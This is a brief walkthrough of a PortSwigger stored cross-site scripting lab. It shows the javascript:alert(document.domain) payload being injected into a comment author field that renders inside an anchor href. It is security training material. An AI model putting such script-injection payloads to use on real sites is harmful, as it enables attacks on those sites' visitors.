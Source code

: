 # Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

## This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

### payload `<a href="javascript:alert(document.domain)">`

---

### step 1

![screenshot](./images/lab8_test_post.png)

submit form

![screenshot](./images/lab8_inspect_test.png)

payload is

```javascript
<a href="javascript:alert(document.domain)">
```

use `javascript:alert(document.domain)` into input name field

and submit
